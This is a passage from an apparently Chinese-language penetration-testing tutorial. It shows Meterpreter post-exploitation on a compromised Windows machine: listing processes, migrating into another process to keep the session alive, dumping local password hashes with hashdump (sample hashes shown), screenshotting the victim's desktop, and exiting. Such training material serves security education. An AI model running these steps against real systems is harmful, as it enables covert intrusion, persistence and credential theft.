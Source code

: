     **…**

    **2648  2204  payload1.exe         x86   1        WS1\John                      C:\Share\payload1.exe**
    **2920  1008  WMIADAP.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wbem\WMIADAP.exe**

    ```

1.  我们还可以迁移到另一个进程，以避免丢失恶意进程的连接。我们可以使用`migrate`命令，并指定目标进程标识符来完成：

    ```
    **meterpreter > migrate 716**

    ```

    输出如下：

    ```
    **[*] Migrating from 2648 to 716...**
    **[*] Migration completed successfully.**

    ```

1.  Meterpreter 还可以通过`hashdump`命令获取被黑机器上本地用户密码的哈希值（要成功执行此命令，我们需要先获得系统权限）：

    ```
    **meterpreter > hashdump**

    ```

    输出如下：

    ```
    **Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::**
    **Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::**
    **HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:04e8fedb35bde404593d20c030663d94:::**
    **John:1001:aad3b435b51404eeaad3b435b51404ee:259745cb123a52aa2e693aaacca2db52:::**

    ```

1.  Meterpreter 拥有多种功能，我们甚至可以通过`screenshot`命令截取受害者桌面会话的屏幕截图：

    ```
    **meterpreter > screenshot** 

    ```

    执行成功后，它会报告截图保存的路径：

    ```
    **Screenshot saved to: /root/elzpOBoE.jpeg**

    ```

1.  当完成与受害者的会话时，要终止会话，请执行`exit`命令：

    ```
    **meterpreter > exit**

    ```
